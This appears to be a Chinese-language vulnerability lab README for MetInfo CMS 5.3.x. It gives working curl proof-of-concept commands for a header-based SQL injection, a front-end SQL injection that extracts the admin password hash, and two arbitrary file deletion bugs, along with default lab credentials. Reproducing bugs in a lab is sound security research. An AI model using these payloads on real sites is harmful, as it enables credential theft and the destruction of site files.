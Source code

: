 ## 环境说明

* src/metinfo/5.3.17
  * 后台地址http://127.0.0.1/admin/
  * 管理员账号admin/admin
* src/metinfo/5.3.5
  - 后台地址http://127.0.0.1/admin/
  - 管理员账号admin/admin

## X-Rewrite-URL SQL注入

测试镜像

* src/metinfo/5.3.17/

要求

* 管理员在 `营销 -> SEO` 下面，开启伪静态
* 管理员安装了至少两种语言包，只安装中文会导致 `$lang` 被覆盖，无法注入

影响版本

* metinfo<= 5.3.17

参考链接

* [Metinfo 5.3.17 前台SQL注入漏洞分析](https://paper.seebug.org/371/)

Poc

```
curl -I 'http://127.0.0.1/index.php?lang=Cn&index=xxxx' -H "X-Rewrite-URL: 'and 1=2 union select version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#/index.php"
```

关键代码

```
# config/config.inc.php
$met_index_type = $db->get_one("SELECT * FROM $met_config WHERE name='met_index_type' and lang='metinfo'");

..

if(count($met_langok)==1)$lang=$met_index_type;

# include/global.func.php
$dir_dirname=$dirs[count($dirs)-2];

...

if($lang==$met_index_type){
	
	...

} else {

	...

$query="select * from $met_column where foldername='$dir_dirname' and lang='$lang' and (classtype='1' or releclass!='0') order by id asc";

	...
```



## Metinfo前台SQL注入漏洞

测试镜像

- src/metinfo/5.3.17/

影响版本

- metinfo<= 5.3

参考链接

- [Metinfo 最新版 前台无需登录注入一枚](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0193924)

Poc

```
curl "172.17.0.2/member/login.php/aa'UNION%20SELECT%20(select%20concat('sql-data:',admin_id,'@',admin_pass)%20from%20met_admin_table%20limit%201),11113,11111,11111,11111,11111,11111,11111,11111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111,1111111111%23/aa" |grep 'sql-data'
```



## Metinfo前台任意文件删除漏洞

测试镜像

- src/metinfo/5.3.5/

影响版本

- metinfo<= 5.3.5

参考链接

- [Metinfo 最新版前台注入一枚](http://wooyun.chamd5.org/bug_detail.php?wybug_id=wooyun-2016-0193729)

Poc

参数formname[tmp_name]为要删除的文件，被删除的文件会被移动到formname[name]参数指定的路径

```shell
curl "http://172.17.0.2/app/system/entrance.php?c=uploadify&a=doupfile&savepath=../&formname\[\]=file&formname\[name\]=yu.jpg&formname\[tmp_name\]=../../config/config_safe.php&is_rename=0"
```

成功会返回

```json
{"error":"0","path":"..\/upload\/..\/yu(1).jpg"}
```



## Metinfo后台任意文件删除漏洞

测试镜像

- src/metinfo/5.3.17/

影响版本

- metinfo < 6.0

参考链接

- [某CMS 5.X版本GETSHELL漏洞合集](https://xz.aliyun.com/t/2096#toc-2)

Poc

使用管理员账号登录后台，访问链接：

```
http://172.17.0.2/admin/app/batch/csvup.php?fileField=1_1231-1&flienamecsv=../../../config/install.lock
```

参数flienamecsv为删除的目标文件



